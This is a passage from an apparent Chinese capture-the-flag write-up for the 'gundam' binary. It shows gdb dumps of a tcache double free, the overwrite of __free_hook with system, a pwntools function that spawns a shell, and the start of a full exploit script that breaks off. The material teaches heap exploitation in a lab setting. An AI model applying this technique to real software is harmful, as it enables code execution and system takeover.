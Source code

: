 触发 double free 时：
```
gdb-peda$ x/30gx 0x0000555555757000+0x10
0x555555757010: 0x0000000000000000      0x0400000000000000  <-- counts
0x555555757020: 0x0000000000000000      0x0000000000000000
0x555555757030: 0x0000000000000000      0x0000000000000000
0x555555757040: 0x0000000000000000      0x0000000000000000
0x555555757050: 0x0000000000000000      0x0000000000000000
0x555555757060: 0x0000000000000000      0x0000000000000000
0x555555757070: 0x0000000000000000      0x0000000000000000
0x555555757080: 0x0000000000000000      0x0000000000000000
0x555555757090: 0x0000000000000000      0x0000000000000000
0x5555557570a0: 0x0000000000000000      0x0000000000000000
0x5555557570b0: 0x0000000000000000      0x0000000000000000
0x5555557570c0: 0x0000000000000000      0x0000555555757a10  <-- entries
0x5555557570d0: 0x0000000000000000      0x0000000000000000
0x5555557570e0: 0x0000000000000000      0x0000000000000000
0x5555557570f0: 0x0000000000000000      0x0000000000000000
gdb-peda$ x/6gx 0x0000555555757a10-0x10
0x555555757a00: 0x0000000000000000      0x0000000000000111
0x555555757a10: 0x0000555555757a10      0x0000000000000000  <-- fd pointer
0x555555757a20: 0x0000000000000000      0x0000000000000000
```
其 fd 指针指向了它自己。

接下来的 malloc 将改写 `__free_hook` 的地址：
```
gdb-peda$ x/6gx 0x0000555555757a10-0x10
0x555555757a00: 0x0000000000000000      0x0000000000000111
0x555555757a10: 0x0068732f6e69622f      0x000000000000000a
0x555555757a20: 0x0000000000000000      0x0000000000000000
gdb-peda$ x/gx 0x00007ffff7dd48a8
0x7ffff7dd48a8 <__free_hook>:   0x00007ffff7a3fdc0
gdb-peda$ p system
$2 = {<text variable, no debug info>} 0x7ffff7a3fdc0 <system>
```

#### pwn
```python
def pwn():
    destroy(1)
    io.interactive()
```

Bingo!!!
```
$ python exp.py 
[+] Starting local process './gundam': pid 7264
[*] Switching to interactive mode
$ whoami
firmy
```

#### exploit
完整的 exp 如下：
```python
#!/usr/bin/env python

from pwn import *

#context.log_level = 'debug'

io = process(['./gundam'], env={'LD_PRELOAD':'./libc.so.6'})
#elf = ELF('gundam')
libc = ELF('libc.so.6')

```